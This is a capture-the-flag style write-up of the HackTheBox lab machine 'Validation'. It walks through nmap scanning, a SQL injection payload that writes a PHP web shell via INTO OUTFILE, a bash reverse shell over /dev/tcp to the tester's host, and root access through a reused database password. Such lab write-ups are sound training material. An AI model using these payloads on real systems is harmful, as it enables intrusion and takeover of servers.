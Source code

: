 ```yaml
---
title: Validation
date: 2023-10-23 14:11:00 +0200
categories: [Boxes, HackTheBox]
tags: [sqli, rce]
img_path: /assets/images/Validation
---
```



This machine is an easy HTB machine, which shows a registration form to join the UHC qualifiers. It has a SQL injection vulnerability, which will allow us to upload a custom file with some PHP code to run shell commands in the machine. Once inside the machine, we will be able to read a password and switch to the root user.

----------------------

## Enumeration

The IP of the machine is 10.10.11.116. We will run **nmap** to discover open ports:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG allPorts
```

![open ports](open-ports.png)

Let's gather more information about these ports using nmap again. We will run this command, which will try to identify services and versions running on those ports:

```bash
sudo nmap -sCV -p22,80,4566,8080 -oN targeted
```

Once the scan finishes, we can see the output in the file `targeted`:

![scan results](targeted.png)

As we don't have any credentials, and the pages on ports 4566 and 8080 are not available, let's dive into port 80.

When we visit the webpage, we are presented with this:

![webpage](webpage.png)

## Shell as www-data and user flag

If we try to register a username, for instance, `manbolq` and press "Join now", we will be redirected to this webpage:

![account webpage](account.png)

This starts looking juicy. It seems to show all the users that are registered for Brazil. Let's register another user and intercept the request with **BurpSuite**:

![burpsuite](burpsuite.png)

The query used to show all the users in a country, may be like the following:

```sql
SELECT username FROM users WHERE country=<contry>
```

If the `country` parameter is not properly sanitized, we may be able to inject some malicious code. Let's try to change the country parameter to the following:

```
country=Brazil' union select '<?php system($_GET["cmd]); ?>' into outfile '/var/www/html/cmd.php'-- -
```

After sending the request, we can see that we get a cookie. If we set that cookie in out browser, this is what we'll see:

![error webpage](error.png)

We see an error in the PHP file, so the SQL injection looks promising. If we browse to the `cmd.php` endpoint, we see that there is no file. Maybe if we try to change the PHP code to hexadecimal it will work. Let's give it a try. We can execute this command:

```bash
echo -n '<?php system($_GET["cmd]); ?>' | xxd -p -u
```

and we will get the hexadecimal string: `0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E`. Let's try to send this query now:

```
country=Brazil' union select 0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E into outfile '/var/www/html/cmd.php'-- -
```

If we set the new cookie, and browse the web, we'll still get the same error. However, if we go to the `cmd.php` endpoint...

![cmd](cmd.png)

Yay! We created the file. We can now use the `cmd` parameter through GET requests to execute arbitrary commands. For example, if we try to execute `id`:

![id](id.png)

There it is. We are the user www-data. Let's try to get a reverse shell!

![revshell](revshell.png)

> I've visited the URL: http://10.10.11.116/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.18/443%200%3E&261%22. **We have to urlencode some characters**
{: .prompt-info }

If we cd into `/home/htb`, we can read the **user flag**.

![user flag](user.png)

## Privilege escalation

We are in the `/var/www/html/` directory. If we execute the `ls` command, we'll see a file called `config.php`. Let's take a look at it:

![config](config.png)

It looks like the config file to connect to the database instance. We see an username and a password. We may try to change to root user using that password, because there might credentials reuse:

![root](root.png)

And yep, definately. So now we are root and we can read the flag under the `/root` directory.

This is all for the machine Validation. I hope you found it useful!
